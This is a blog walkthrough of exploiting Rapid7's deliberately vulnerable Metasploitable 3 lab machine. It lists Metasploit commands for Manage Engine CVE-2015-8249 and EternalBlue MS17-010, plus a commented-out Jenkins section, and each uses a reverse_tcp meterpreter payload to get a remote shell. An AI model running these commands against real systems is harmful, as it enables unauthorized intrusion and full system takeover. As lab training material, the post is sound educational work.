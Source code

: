 ```yaml
---
layout: single
title: "Metasploitable 3 Walkthrough"
date: 2020-07-25 08:49:23 +0100
categories: windows
excerpt: An overview of exploiting the vulnerabilities in Metasploitable 3
---
```


![metasploitable](/images/hackthebox-writeups/metasploitable3/msf3-1.png)

# Metasploitable 3 Exploitation Guide

## Introduction

Hello all, in this post I will be going over the ways to exploit code and gain a shell on Rapid7's [Metasploitable 3](https://github.com/rapid7/metasploitable3) machine. Each vulnerability will be split into it's own section and explained with links for reference, I will also go over ways to escalate privileges from LOCAL SERVICE shells to SYSTEM, by combining multiple exploits. Each week I will add more, so consider it a rolling post where I will update it with each new vulnerability I find and then exploit. The link to each section will as usual, be in the table of contents at the side of the page. If you have any questions feel free to reach out to me on my Twitter, or my Discord, both linked at the side. Without further ado, let's get started.

## Links and Resources

These are just some useful links and resources if you get stuck exploiting the machine.

- [The projects GitHub Page](https://github.com/rapid7/metasploitable3)
- [A guide to installing Metasploitable3](https://www.youtube.com/watch?v=errn34YrEjM)
- [Meterpreter Basics](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
- [Attacking Metasploitable 3 - Metasploit Minute - Mubix](https://www.youtube.com/watch?v=4HOGfSQEYuE)
- [List of Metasploitable 3 Vulnerabilities](https://github.com/rapid7/metasploitable3/wiki/Vulnerabilities)
- [Details of how Metasploitable 3 is configured](https://github.com/rapid7/metasploitable3/wiki/Configuration)
- [Metasploit Download](https://github.com/rapid7/metasploit-framework)
- [A Beginners Guide to Metasploit - HackerSploit](https://www.youtube.com/watch?v=8lR27r8Y_ik&list=PLBf0hzazHTGN31ZPTzBbk70bohTYT7HSm)

## NMAP Scan of Metasploitable 3

![nmap](/images/hackthebox-writeups/metasploitable3/nmap.png)

## Metasploit Prerequisites

To make our lives easier I will launch metasploit with the `msfdb run` command to launch msf and start the database for credential storage, I will also use the `setg` command to globally set the RHOST and LHOST to the IP of Metasploitable3 and our local IP respectively.

![msf-1](/images/hackthebox-writeups/metasploitable3/msf-1.png)

<!--
## Exploiting the Jenkins Vulnerability

The first vulnerability we will be exploiting is to do with a poor Jenkins implementation, where the script editor is not locked behind a password, so it allows for unauthenticated remote code execution as LOCAL SERVICE, the module we will be using is, [exploit/multi/http/jenkins_script_console](https://www.rapid7.com/db/modules/exploit/multi/http/jenkins_script_console), all we need to do is load up the module and run `exploit` as we have already set the RHOST and LHOST with `setg`. We also need to make sure that we are using a 64 bit payload as Metasploitable 3 is a 64 bit machine. We can set the correct payload with, `set payload windows/x64/meterpreter/reverse_tcp`.

{% highlight powershell linenos %}
use exploit/multi/http/jenkins_script_console
set payload windows/x64/meterpreter/reverse_tcp
exploit
{% endhighlight %}

-->

## Exploiting Manage Engine - CVE-2015-8249

The first vulnerability we will be exploiting is to do with an outdated Manage Engine Desktop Central implementation, there is a CVE with a metasploit module and this allows for unauthenticated remote code execution as LOCAL SERVICE, the module we will be using is, [exploit/windows/http/manageengine_connectionid_write](https://www.rapid7.com/db/modules/exploit/windows/http/manageengine_connectionid_write), all we need to do is load up the module and run `exploit` as we have already set the RHOST and LHOST with `setg`. We also need to make sure that we are using a 64 bit payload as Metasploitable 3 is a 64 bit machine. We can set the correct payload with, `set payload windows/x64/meterpreter/reverse_tcp`.

{% highlight powershell linenos %}
use exploit/windows/http/manageengine_connectionid_write
set payload windows/x64/meterpreter/reverse_tcp
exploit
{% endhighlight %}

![bingo](/images/hackthebox-writeups/metasploitable3/msf-2.png)

Bingo, we got a shell as LOCAL SERVICE.

Here is a link to an in-depth article exploiting this vulnerability - [Here](https://redteamtutorials.com/2018/10/24/metasploitable-3-exploiting-manage-engine-desktop-central-9/)

## Exploiting EternalBlue, MS17-010

The next vulnerability we will exploit is [MS17-010](https://en.wikipedia.org/wiki/EternalBlue), EternalBlue. To exploit this vulnerability, it is quite simple, all we need to do is load the module in metasploit and then run the exploit.

![](/images/hackthebox-writeups/metasploitable3/msf-1.png)

{% highlight powershell  %}
use exploit/windows/smb/ms17_010_eternalblue
set LHOST 10.10.11.2
set RHOST 10.10.10.11
exploit
{% endhighlight %}

![](/images/hackthebox-writeups/metasploitable3/eternalblue.png)

Bingo, we got a shell as system.

